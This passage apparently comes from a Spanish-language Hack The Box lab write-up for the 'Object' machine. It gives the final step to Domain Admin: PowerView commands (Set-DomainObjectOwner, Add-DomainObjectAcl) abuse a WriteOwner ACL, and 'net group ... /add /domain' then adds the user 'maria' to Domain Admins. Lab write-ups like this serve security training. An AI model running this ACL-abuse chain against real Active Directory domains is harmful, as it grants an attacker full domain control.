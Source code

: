 *** 

# Domain Admin

Ya que tenemos acceso como **maria**, sólo restaría abusar del ACL ```WriteOwner``` para obtener **Domain Admin**.

![](/images/HTB/Object/167-maria-to-domain.png)

Volveremos al directorio temporal creado anteriormente y haremos lo siguiente:

* Importar nuevamente PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1
```

* Setear **maria** como propietario del grupo **Domain Admins**.

```powershell
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
```

* Garantizar todos los permisos a **maria** dentro del grupo **Domain Admins**.

```powershell
Add-DomainObjectAcl -PrincipalIdentity maria -TargetIdentity "Domain Admins" -Rights All
```

* Finalmente agregar a **maria** dentro del grupo Domain Admins.

```powershell
net group "Domain Admins" maria /add /domain
```
